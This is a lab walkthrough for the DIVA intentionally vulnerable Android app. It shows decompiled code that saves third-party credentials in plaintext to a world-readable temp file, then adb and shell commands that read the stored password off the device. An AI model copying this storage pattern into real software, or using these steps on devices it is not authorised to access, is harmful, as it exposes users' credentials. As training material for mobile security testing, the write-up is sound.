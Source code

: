 ## Insecure Data Storage Part 4


#### The vulnerability

This time, it is stored in a temp file

        view = (EditText)this.findViewById(2131493006);
        EditText editText = (EditText)this.findViewById(2131493007);
        Object object = new File(this.getApplicationInfo().dataDir);
        try {
            Comparable<File> comparable = File.createTempFile("uinfo", "tmp", (File)object);
            ((File)comparable).setReadable(true);
            ((File)comparable).setWritable(true);
            object = new FileWriter((File)comparable);
            comparable = new Comparable<File>();
            ((Writer)object).write(((StringBuilder)comparable).append(view.getText().toString()).append(":").append(editText.getText().toString()).append("\n").toString());
            ((OutputStreamWriter)object).close();
            Toast.makeText((Context)this, (CharSequence)"3rd party credentials saved successfully!", (int)0).show();
            return;
        }
        catch (Exception exception) {
            Toast.makeText((Context)this, (CharSequence)"File error occurred", (int)0).show();
            Log.d((String)"Diva", (String)("File error: " + exception.getMessage()));
            return;

#### How to exploit

        adb root 
        cd /data/data/jakhar.aseem.diva
        ls -al

u will see this

        drwxr-x--x  5 u0_a67 u0_a67       4096 2019-10-11 06:24 .
        drwxrwx--x 91 system system       4096 2019-10-11 06:20 ..
        drwxrws--x  2 u0_a67 u0_a67_cache 4096 2019-10-11 06:20 cache
        drwxrws--x  2 u0_a67 u0_a67_cache 4096 2019-10-11 06:20 code_cache
        drwxrwx--x  2 u0_a67 u0_a67       4096 2019-10-11 06:20 databases
        -rw-------  1 u0_a67 u0_a67         35 2019-10-11 06:24 uinfo1241259384763728833tmp

cat the uinfo file
        
        generic_x86_64:/data/data/jakhar.aseem.diva # cat  uinfo1241259384763728833tmp
        Lewis Hamilton:GetinthereLewis!!!!
        
### **BINGO!!!**




